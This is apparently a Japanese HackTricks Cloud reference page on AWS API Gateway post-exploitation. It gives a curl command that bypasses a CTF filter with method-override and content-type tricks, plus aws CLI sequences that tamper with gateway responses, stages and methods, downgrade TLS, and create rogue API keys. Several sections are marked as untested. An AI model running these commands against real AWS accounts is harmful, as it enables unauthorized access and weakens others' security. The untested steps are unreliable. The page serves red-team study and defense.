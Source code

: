 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
&#x20;AWSハッキングの学習と練習:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;GCPハッキングの学習と練習: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
{% endhint %}

## API Gateway

詳細については、以下を確認してください:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 公開されていないAPIへのアクセス

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)で`com.amazonaws.us-east-1.execute-api`サービスを使用してエンドポイントを作成し、アクセス可能なネットワーク（おそらくEC2マシン経由）でエンドポイントを公開し、すべての接続を許可するセキュリティグループを割り当てます。\
その後、EC2マシンからエンドポイントにアクセスし、それによって以前公開されていなかったゲートウェイAPIを呼び出すことができます。

### リクエストボディのパススルーをバイパスする

このテクニックは[**このCTF解説**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)で見つかりました。

[**AWSドキュメント**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)に示されているように、`PassthroughBehavior`セクションでは、デフォルトで値**`WHEN_NO_MATCH`**が、リクエストの**Content-Type**ヘッダをチェックして、変換なしでリクエストをバックエンドに渡します。

したがって、CTFでは、API Gatewayには、`Content-Type: application/json`でリクエストが送信されたときに、レスポンスで**フラグが外部に漏洩するのを防ぐ**統合テンプレートがありました:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

ただし、**`Content-type: text/json`** を使用してリクエストを送信すると、そのフィルターを回避できます。&#x20;

最後に、API Gateway が `Get` と `Options` のみを許可していたため、ヘッダー `X-HTTP-Method-Override: GET` を使用して、ボディ内にクエリを含めた POST リクエストを送信することで、任意の dynamoDB クエリを制限なしで送信することが可能でした。
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用計画 DoS

**列挙**セクションでは、**キーの使用計画を取得**する方法が示されています。キーがあり、**月あたりの使用回数がX回に制限**されている場合、**それを使用してDoSを引き起こす**ことができます。

**APIキー**は、単に**`x-api-key`**という名前の**HTTPヘッダー**内に**含める**必要があります。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のゲートウェイレスポンスを変更して、機密情報を漏洩させたり、悪意のあるスクリプトを実行したりするカスタムヘッダーやレスポンステンプレートを含める**ことができます。
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**既存のAPI Gatewayステージを変更してトラフィックを別のステージにリダイレクトしたり、キャッシュ設定を変更してキャッシュされたデータに不正アクセスする**ことができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的影響**: キャッシュされたデータへの不正アクセス、APIトラフィックの妨害や傍受。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gateway REST APIメソッドのメソッドレスポンスを変更して、カスタムヘッダーまたはレスポンステンプレートを追加し、機密情報を漏洩させたり、悪意のあるスクリプトを実行する**ことができます。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的影響**: 機密情報の漏洩、悪意のあるスクリプトの実行、またはAPIリソースへの不正アクセス。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi`および`apigateway:CreateDeployment`の権限を持つ攻撃者は、**API Gateway REST APIの設定を変更してログの無効化や最小TLSバージョンの変更を行うことができ、APIのセキュリティを弱める可能性がある**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的影響**: APIのセキュリティを弱体化させ、未承認のアクセスを許可したり、機密情報を公開したりする可能性があります。

{% hint style="info" %}
テストが必要
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`、`apigateway:CreateUsagePlanKey` の権限を持つ攻撃者は、**新しいAPIキーを作成し、それらを使用計画に関連付け、これらのキーを使用してAPIへの未承認アクセスを行う**ことができます。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在的影響**: API リソースへの不正アクセス、セキュリティコントロールのバイパス。

{% hint style="info" %}
テストが必要
{% endhint %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出して、あなたのハッキングテクニックを共有する

</details>
